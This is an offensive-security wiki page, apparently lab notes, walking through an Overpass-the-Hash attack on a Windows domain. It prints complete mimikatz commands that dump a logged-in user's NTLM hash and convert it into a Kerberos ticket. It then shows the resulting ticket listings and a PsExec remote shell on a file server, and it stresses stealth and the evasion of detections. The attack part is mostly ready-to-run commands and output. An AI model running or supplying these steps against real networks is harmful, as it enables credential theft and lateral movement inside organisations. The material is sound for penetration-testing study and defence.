 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Overpass-the-Hash

**Overpass-the-Hash (OtH)** allows attackers to **convert a user’s NTLM hash into a valid Kerberos TGT**, enabling Kerberos-based lateral movement without triggering NTLM authentication. Tools like Mimikatz make this possible by injecting the hash into memory and launching a process (e.g., PowerShell) with valid Kerberos tickets. This method enables attackers to avoid NTLM and use Kerberos-compatible tools. The OtH attack works as follows:

1. The attacker gains **administrator access** on a machine where **the target user has logged in interactively** (e.g., via RDP or using RunAs).
2. The user’s NTLM hash is cached in memory on that machine and the attacker uses `mimikatz` to extract it.
3. The attacker injects a new process with a Kerberos TGT generated from that NTLM hash.
4. With the TGT, the attacker can authenticate to and interact with Kerberos-based services (e.g., CIFS, RDP, PsExec).

The OtH attack:

* **Bypasses NTLM restrictions** and avoids triggering certain detections.
* Enables tools like **native PsExec**, **WinRM**, or **RDP** to be used.
* Exploits the **trust model of Kerberos** by impersonating a user with a valid TGT.
* Is **stealthier than traditional PtH** since it doesn’t rely on direct NTLM auth over the network.

On our scenario, our target user (`jen`) has logged in interactivey and we have local `administrator` access on the target machine.

{% code overflow="wrap" %}
```powershell
# Extract jen's NTLM hash
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
...
NTLM : 369def79d8372408bf6e93364cc93075
...

# Use the pth module to launch a new PS session with a Kerberos TGT context for jen
mimikatz # sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```
{% endcode %}

When we list the cached TGTs, we expect no tickets to be shown as no Kerberos-authenticated service is accessed so far.

```powershell
> klist
...
Cached Tickets: (0)
```

If we now use a Kerberos-authenticated service, such as CIFS, a TGT for `krbtgt/CORP.COM` and TGS for `cifs/files04` will be generated.

{% code overflow="wrap" %}
```powershell
> net use \\files04
The command completed successfully.

> klist
...
Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```
{% endcode %}

We have successfully converted the NTML hash into a TGT and we can now use any Kerberos-based authentication tool, such as `PsExec`. No hash or password needed—**Kerberos ticket is used silently**.

```powershell
.\PsExec.exe \\files04 cmd
...
C:\Windows\system32>whoami
corp\jen

C:\Windows\system32>hostname
FILES04
```
